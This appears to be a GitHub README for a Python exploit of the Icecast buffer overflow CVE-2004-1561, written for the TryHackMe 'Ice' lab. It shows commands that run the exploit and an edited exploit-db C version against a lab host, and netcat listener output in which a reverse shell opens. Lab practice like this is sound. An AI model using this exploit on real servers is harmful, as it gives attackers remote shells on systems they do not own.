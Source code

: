 # CVE-2004-1561 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32)

Python 3 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32), rewritten from this [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/icecast_header.rb). I rewrote this from the Metasploit module because I couldn't get [this](https://www.exploit-db.com/exploits/568) to work.

## Usage:

Replace reverse shell shellcode in exploit, call it with argument for remote server and port.

```
root@Kali:~/TryHackme/Ice# ./icecast.py 192.168.92.133 8000

Done!
```
Reverse shell listener:
```
root@Kali:~/TryHackme/Ice# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49211
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>
```
## Update for 568-edit.c

Managed to get the [original exploit](https://www.exploit-db.com/exploits/568) to work. Edited according [to this](https://www.exploit-db.com/exploits/573).
### Usage for 568-edit.c
```
root@Kali:~/TryHackme/Ice# gcc 568-edit.c -o 568
root@Kali:~/TryHackme/Ice# ./568 192.168.92.133

Icecast <= 2.0.1 Win32 remote code execution 0.1
by Luigi Auriemma
e-mail: aluigi@altervista.org
web:http://aluigi.altervista.org

shellcode add-on by Delikon
www.delikon.de

- target 192.168.92.133:8000
- send malformed data

Server IS vulnerable!!!
```
On listener
```
root@Kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49238
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>

```